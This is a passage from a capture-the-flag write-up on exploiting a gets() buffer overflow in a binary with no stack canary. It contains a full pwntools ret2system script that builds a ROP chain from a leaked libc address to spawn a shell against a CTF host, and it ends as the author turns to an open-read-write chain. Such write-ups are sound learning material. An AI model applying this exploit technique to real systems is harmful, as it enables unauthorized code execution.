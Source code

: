 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup();
  vuln();
  return 0;
}

```
surprisingly the decompiled code is small in size. the vulnerability is apparent. the procedure `vuln()` uses `gets()` to read into the buffer `v1` allowing us to overflow the buffer. the binary does not have a stack canary protection either, so we are free to craft a ROP chain. despite the `PIE` mitigation, we are provided with a libc leak and therefore, we could directly perform a `ret2system` with all the given information.

## ret2system did not work!
i had a script that worked on my local machine, but it resulted in an error on the remote machine. this was the exploit that i was using
```py
from pwn import *

exe = './chall_patched'
libc_path = 'libc.so.6'
ld_path = 'ld-linux-x86-64.so.2'
elf = context.binary = ELF(exe, checksec=True)
libc = ELF(libc_path, checksec=True)
ld = ELF(ld_path, checksec=True)

host = 'challs.pwnoh.io'
port = 13371

context.terminal = ['tmux', 'splitw', '-h']

## r = process(exe, level='DEBUG')
## r = remote(host, port, level='DEBUG')

gs = '''
break *vuln
continue
'''
r = gdb.debug(exe, gdbscript=gs)

r.recvuntil(b"Try it yourself: it's at")
system_leak = int(r.recvline().strip().decode(), 16)

libc.address = system_leak - libc.symbols['system']

bin_sh = next(libc.search(b"/bin/sh"))
pop_rdi = libc.address + 0x02a3e5
ret = libc.address + 0x1bc065

payload = b'A' * (0x28) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system_leak)
r.sendline(payload)

r.interactive()
```
i had no clue what happened. when i switched the target function from `system()` to `puts()`, surprisingly it worked. that's when we realised what was happening. there was no `/bin/sh` on the remote. so we decided to switch to writing a ROP chain that performs an open read write on a file. 
